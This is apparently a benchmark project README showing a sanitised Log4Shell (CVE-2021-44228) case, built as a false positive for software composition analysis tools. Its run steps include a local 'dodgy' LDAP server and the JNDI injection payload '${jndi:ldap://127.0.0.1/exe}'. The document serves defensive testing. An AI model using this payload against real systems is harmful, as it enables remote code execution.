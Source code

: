 ## log4shell false positive

This is a simple web project with a sanitised log4shell vulnerability. For an unsanitised version, see [https://github.com/scabench/l4j-tp1/](https://github.com/scabench/l4j-tp1/).
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 

### Sanitisation

The project uses an [agent build by Amazon](https://github.com/corretto/hotpatch-for-apache-log4j2) when *log4shell* emerged and no patch was available.
The agent will disable the vulnerable class `org.apache.logging.log4j.core.lookup.JndiLookup`. 

Using the agent is enforced by installing (aka attaching) the agent dynamically when `scabench.HelloWorldService` is loaded (in the static block of the class), 
if this fails, the application crashes. This requires that the JVM enables agent self-attachment.


### Running the Application

1. enable JVM agent self attachment: `export MAVEN_OPTS="-Djdk.attach.allowAttachSelf=true"`
2. start the embedded web server: `mvn jetty:run`
3. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
4. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
5. submit this form
6. this will *NOT* create the file `foo` on the server (as the [un-sanitised version]((https://github.com/scabench/l4j-tp1/)) does)


Note that when running the application, the following line appears on the console:

`Transforming org/apache/logging/log4j/core/lookup/JndiLookup `.

### Demonstrating the Sanitisation using a Test

This requires unix or macos. It is easy to port this project to windows.
A unit test is provided to demonstrate the vulnerability, the setup is the same used in 
[https://github.com/scabench/l4j-tp1/](https://github.com/scabench/l4j-tp1/). Due to santitisation,
the test now *fails*. 

### Running Software Composition Analyses

There are several sh scripts to run different analyses, result resports can be found in `scan-results`.

### Generating the SBOM

The `pom.xml` has a plugin to generate a [SBOM](https://www.cisa.gov/sbom) in [CycloneDX](https://cyclonedx.org/) format. 
To do this, run `mvn cyclonedx:makePackageBom`, the SBOM can be found in 
`target/` in `json` and `xml` format.

